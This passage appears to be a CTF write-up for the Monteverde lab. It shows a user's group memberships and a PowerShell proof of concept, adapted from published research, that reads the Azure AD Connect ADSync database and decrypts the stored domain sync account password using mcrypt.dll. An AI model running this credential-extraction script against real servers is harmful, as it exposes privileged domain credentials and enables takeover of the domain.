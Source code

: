 ```php
User profile                 
Home directory               \\monteverde\users$\mhope
Last logon                   1/18/2020 11:05:46 AM

Logon hours allowed          All

Local Group Memberships      *Remote Management Use
Global Group memberships     *Azure Admins         *Domain Users         
The command completed successfully.
```

So I googled about this and found this article

> [https://blog.xpnsec.com/azuread-connect-for-redteam/](https://blog.xpnsec.com/azuread-connect-for-redteam/)

**Azure is a public cloud computing platform. It helps in synchronization of hashes and It encrypt the hashes with a dll called `mcrypt.dll`**


I did some few changes in the script. I added the IP address of the machine as Server here. Inorder to connect the database. So this script uses the same mcrypt.dll to decrypt the hash using the internal commands and gives the password in plain text.

```powershell
Write-Host "AD Connect Sync Credential Extract POC (@_xpn_)`n"

$server=10.10.10.172
$client = new-object System.Data.SqlClient.SqlConnection -ArgumentList "Server = $server; Data Source=(localdb)\.\ADSync;Initial Catalog=ADSync"
$client.Open()
$cmd = $client.CreateCommand()
$cmd.CommandText = "SELECT keyset_id, instance_id, entropy FROM mms_server_configuration"
$reader = $cmd.ExecuteReader()
$reader.Read() | Out-Null
$key_id = $reader.GetInt32(0)
$instance_id = $reader.GetGuid(1)
$entropy = $reader.GetGuid(2)
$reader.Close()

$cmd = $client.CreateCommand()
$cmd.CommandText = "SELECT private_configuration_xml, encrypted_configuration FROM mms_management_agent WHERE ma_type = 'AD'"
$reader = $cmd.ExecuteReader()
$reader.Read() | Out-Null
$config = $reader.GetString(0)
$crypted = $reader.GetString(1)
$reader.Close()

add-type -path 'C:\Program Files\Microsoft Azure AD Sync\Bin\mcrypt.dll'
$km = New-Object -TypeName Microsoft.DirectoryServices.MetadirectoryServices.Cryptography.KeyManager
$km.LoadKeySet($entropy, $instance_id, $key_id)
$key = $null
$km.GetActiveCredentialKey([ref]$key)
$key2 = $null
$km.GetKey(1, [ref]$key2)
$decrypted = $null
$key2.DecryptBase64ToString($crypted, [ref]$decrypted)

$domain = select-xml -Content $config -XPath "//parameter[@name='forest-login-domain']" | select @{Name = 'Domain'; Expression = {$_.node.InnerXML}}
$username = select-xml -Content $config -XPath "//parameter[@name='forest-login-user']" | select @{Name = 'Username'; Expression = {$_.node.InnerXML}}
$password = select-xml -Content $decrypted -XPath "//attribute" | select @{Name = 'Password'; Expression = {$_.node.InnerText}}
```